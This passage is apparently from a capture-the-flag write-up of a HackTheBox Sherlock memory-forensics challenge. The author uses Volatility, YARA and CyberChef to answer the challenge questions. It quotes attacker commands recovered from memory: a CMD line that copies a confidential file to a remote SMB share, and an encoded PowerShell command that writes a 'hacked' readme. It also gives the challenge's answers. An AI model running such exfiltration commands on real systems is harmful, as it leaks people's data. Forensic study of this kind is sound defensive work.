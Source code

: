 The next question is:

- A CMD command was executed to attempt to exfiltrate a file. What is the full command line?

Now I used the `cmdscan` plugin with: `python2 /opt/volatility2/vol.py -f recollection.bin --profile=Win7SP1x64 cmdscan`

![Volatility2 cmdscan output](@assets/htb-photos/screencaps/htb-sherlock/recollection/9.png)

Which yields the answer: `type C:\Users\Public\Secret\Confidential.txt > \\192.168.0.171\pulice\pass.txt`

Here is the next question:

- Following the above command, now tell us if the file was exfiltrated successfully?

If we look back up in our `consoles` run, it can be noted that an `ls` command is ran after executing the script. There is no pass.txt files, so the answer is `NO`.

![Volatility2 cmdscan output](@assets/htb-photos/screencaps/htb-sherlock/recollection/10.png)

With that question answered, we move to the next question:

- The attacker tried to create a readme file. What was the full path of the file?

I couldn't find anything that I thought would help me as far as plugins go, and I also didn't feel like using `radare2` for this task. But I did find this post https://isc.sans.edu/diary/Using+Yara+rules+with+Volatility/22950 that points towards using `yara` with `volitility`. So I decided to take a crack at doing this:

![yara rules file](@assets/htb-photos/screencaps/htb-sherlock/recollection/11.png)

Using this file and this command: `python2 /opt/volatility2/vol.py -f recollection.bin --profile=Win7SP1x64 yarascan -Y search_readme.yara`

![yara rules file attempt](@assets/htb-photos/screencaps/htb-sherlock/recollection/12.png)

However, it then dawned on me looking over my previous commands, specifically the use of the `cmdscan`, that there's a command directly underneath there that is echoing a strange string. `powershell -e "ZWNobyAiaGFja2VkIGJ5IG1hZmlhIiA+ICJDOlxVc2Vyc1xQdWJsaWNcT2ZmaWNlXHJlYWRtZS50eHQi"` 

I tossed that string into Google, and it pulled up a bunch of base64 encoding links, so I went to `cyberchef` and low and behold, it gave me the answer!

![cyberchef output](@assets/htb-photos/screencaps/htb-sherlock/recollection/13.png)

Though you could also do this with a command:

![string decode](@assets/htb-photos/screencaps/htb-sherlock/recollection/14.png)

But either way, the answer is given: `C:\Users\Public\Office\readme.txt`

So now, the next question:

- What was the Host Name of the machine?

As we seem to be on a `volitility` train, I'll use that with this command: `python2 /opt/volatility2/vol.py -f recollection.bin --profile=Win7SP1x64 envars`
